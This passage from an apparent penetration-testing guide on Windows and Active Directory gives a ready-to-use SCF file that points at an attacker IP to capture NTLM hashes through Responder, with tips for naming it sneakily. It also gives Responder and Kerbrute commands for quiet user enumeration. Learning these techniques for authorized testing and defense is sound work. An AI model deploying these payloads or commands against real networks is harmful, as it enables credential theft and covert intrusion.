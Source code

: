 ### SCF (Shell Command Files) Exploits

Speaking of responder, one such way to get a user to connect _to_ you is by dropping an `scf` file onto a share (or wherever) that someone will access. Generally if you have access to a share drive that is writeable by you, you can drop a specially crafted Shell Command File into the share and fire up `responder` to see if either an automated process or even a real user opens this share. What's good about this is explorer will "execute" this SCF file even without opening it. To create it, you'll need to add the following. First, create a file named `@somefile`, where the `@` symbol is at the beginning, and the `somefile` could be named anything, preferably something sneaky based on the directory. When all else fails, you can't go wrong with `@sysconf~1.scf`.

Then, add this to the file, making sure to change the below IP address to your attacker machine's IP address.

```text
[Shell]
Command=2
IconFile=\\10.10.10.10\x\icon.ico
[Taskbar]
Command=ToggleDesktop
```

Then sit back and wait with `responder`.

## Enumeration Techniques

In the world of Windows (or really, when dealing with an Active Directory server), enumeration is probably the most important thing here. Building upon a list of known usernames and potential passwords is the key to pivoting and moving around. I'm not telling you anything groundbreaking, but in most engagements I've been on involving interrogating a domain controller, it's generally good practice to start building a known user list to, at the very least, attempt a password-spray against it. So long as you don't go locking out hundreds of user accounts. Don't be that person.

### Responder

Responder can listen in Analysis mode for multiple hosts. It won't poison any LLMNR, MDNS or NBT-NS requests (which are essentially Window's alternatives to DNS when DNS can't be reached), but it will passively map the network you are currently on without ringing any alarm bells.

```terminal
$ responder -I eth0 -A
```

### Kerbrute

Kerbrute can attempt to enumerate users very silently because by default Windows does not log the events that this generates. Now this doesn't mean that this method is completely silent, but by default KRB auth requests aren't logged so this could very well be more silent than running something like CrackMapExec/NetExec. What this does is exploit a step in the Kerberos authentication method which returns a different response if an existing user account requests to pre-authenticate than if a non-existing user account does. This also has the benefit of being _incredibly fast_ compared to other techniques.

```terminal
$ kerbrute userenum -d DOMAIN.LOCAL --dc 10.10.90.90 usernames.txt
```
